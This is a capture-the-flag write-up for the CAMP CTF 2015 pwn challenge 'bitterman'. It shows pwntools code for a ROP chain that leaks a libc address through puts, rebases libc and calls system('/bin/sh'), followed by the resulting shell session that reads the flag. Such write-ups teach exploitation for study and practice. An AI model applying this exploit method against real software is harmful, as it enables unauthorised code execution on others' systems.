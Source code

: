 # CAMP CTF 2015: bitterman-300

**Category:** Pwn
**Points:** 300
**Solves:** 31
**Description:**

> Can you exploit this one for me? [bitterman](bitterman) is running on challs.campctf.ccc.ac:10103 This time NX is enabled, to make sure it's not too easy. Here's the [libc](libc.so.6).


## Write-up

by [ctfhacker](https://github.com/ctfhacker)

# Bitterman

## Recon

Upon connecting, we are given a prompt which asks for the following items:
* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:
* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:
```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:
```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/campctf-2015-bitterman/> 
* <https://github.com/thebarbershopper/ctf-writeups/tree/master/campctf-2015/bitterman-pwn-400>
* [Chinese](http://www.cnhackmy.com/hacked/CTF/2015/09/12/00001675.html)
